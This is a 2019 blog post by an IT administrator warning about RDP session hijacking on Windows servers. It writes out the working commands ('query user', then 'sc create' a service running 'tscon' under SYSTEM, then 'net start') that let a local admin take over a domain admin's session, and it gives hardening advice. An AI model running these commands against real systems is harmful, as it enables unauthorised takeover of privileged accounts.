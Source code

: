```yaml
---
title: 'How Secure is RDP?'
date: 2019-06-23T03:06:00.002-07:00
draft: false
url: /2019/06/hands-up-if-you-have-following.html
---
```


  

Hands up if you have following setup/practices in your organization:

*   A RDP server (Terminal server) that everyone can jump onto. Apart from the IT admins, some users have local admin rights on the box, just so they can run or configure a particular application.
    
*   To help troubleshooting an issue, your IT admins often RDP to servers directly from user's laptop, which the user is a local admin.
    
*   A group of users have local admin rights on a particular Windows box, and your Domain Admins also need to RDP to from time to time.
    

  

If any of above scenario applies to your organization, you might want to consider introducing some changes. This is why:

  

It is well known that Windows Remote Desktop Service has this feature that allows you to connect to another user's session. But obviously you will need to know the other user's credential to do that, right? No, not necessarily. With NT AUTHORITY/SYSTEM account, you can hijack the user's RDP session without the need for type in the credential. As mentioned in this blog post [https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)  If you are a local admin on the server/desktop, you can easily hijack another user's RDP session (whether it's connected or disconnected) by run the following commands:

1.  Query User to get the SEESION Name and ID
    
```powershell
C:\Users\ben>query user

USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME

tom-admin             rdp-tcp#19          4  Active         15  6/22/2019 5:14 AM

ben                   rdp-tcp#20          5  Active          .  6/22/2019 6:53 AM
```

2.  Use SC to create a service which will connect to the privileged account (tom-admin) RDP session from a non-privileged users (Ben) session. The service by default will use SYSTEM account to launch.
    

sc create rdphijack binpath="cmd.exe /k tscon 4 /dest:rdp-tcp#20"

3.  Start the service, and THAT'S IT!!!
    

net start rdphijack

This hack is so easy to achieve, a security novice like me was able to get it going in no time.  
  
Image the follow scenario: Your Domain Admin RDP to a jump/bastion server. He/She left the session there without properly logoff. A hacker compromised a normal domain user account. The account somehow has local admin rights on this server. The hacker will then be able to easily connect to the Domain Admin's session, without the need for any 3rd party tools! The worst thing is, this kind of hijack will not trigger any alarms in solutions like ATA.

  

I know there are also lots people still arguing whether this is an issue. I think the point is with this kind of flaw in place, we really need to avoid those scenario I mentioned in the beginning. As they can easily lead to a compromised DA account. RDP from the beginning isn't a very secure way of accessing servers. As a IT Admin, we should try minimize the use of it. Luckily, we now have System Admin Center. With that we can accomplish a lot admin tasks without the need of RDP to the remote servers.

  

On the other hand, I would love to hear your opinion or experience with System Admin Center. I am not aware of any security issues with the tool. But be sure do let me know if you know otherwise.

  

**Update:** I have tested this issue on Windows 2019 and was not able to replicate it. So here you go, just upgrade all your servers to 2019!